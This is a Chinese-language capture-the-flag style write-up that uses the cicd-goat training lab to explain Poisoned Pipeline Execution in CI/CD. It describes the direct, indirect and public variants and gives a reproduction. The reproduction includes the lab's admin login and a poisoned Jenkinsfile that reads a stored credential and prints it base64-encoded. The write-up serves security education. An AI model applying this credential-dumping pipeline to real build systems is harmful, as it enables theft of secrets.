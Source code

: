 ```yaml
---
sidebar_position: 1
tags: [CVE, CICD]
---
```


# 通过 cicd-goat 靶场学习Top 10 CI/CD Security Risks

https://github.com/cider-security-research/cicd-goat

## 0x01 [CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/)  White Rabbit(D-PPE)

可以通过 admin ciderland5# 登录后台查看具体的配置

## 原理

漏洞介绍：https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422

简单来说就是通过修改存储库中可控的 CI 管道配置文件达到执行命令的目的，Jenkinsfile（Jenkins）、.gitlab-ci.yml（GitLab）、.circleci/config.yml（CircleCI）、.github/workflowers 的 GitHub Actions YAML 文件这些都是 CI 配置文件。

PPE 主要有三种攻击方式：

- **Direct (D-PPE)**：修改可访问的存储库中的 CI 配置文件后直接将更改推送到存储库上的一个未受保护的远程分支，或者通过从一个分支或分叉提交带有更改的 PR。由于 CI 管道的执行是由 push 或 PR 事件触发的，并且管道的执行是由修改后的 CI 配置文件中的命令定义的，攻击者的恶意命令最终在构建管道触发后在构建节点上运行。
- **Indirect (I-PPE)**：如果CI的流水线定义不是在代码仓库中的配置文件定义，而是在CI系统（Jenkins）自身定义的。仍然可以通过代码仓库中存在的文件进行恶意代码执行，如 Makefile 文件、管道中自定义执行的shell脚本。通过间接插入恶意代码到管道中执行的脚本，达到恶意代码植入。
- **Public (P-PPE, or 3PE)**：从公共的代码仓库拉取的代码，如果攻击者通过公共仓库进行投毒，会对CI系统造成破坏，如果CI系统在内网，甚至可能进一步危害内网安全。

## 漏洞复现

### 恶意 Jenkinsfile 文件

访问 Gitea 的 `Wonderland/white-rabbit` 项目下有一个 Jenkinsfile 文件，修改如下，将获取名为 flag1 的凭据，并存储在 msg 环境变量中并输出

```
pipeline {
    agent any
    stages {
        stage ('poc') {
            steps {
                withCredentials([string(credentialsId: 'flag1', variable: 'msg')]) {
                    sh '''
                        echo $msg | base64
                    '''                 
                }
            }
        }
    }
}
```

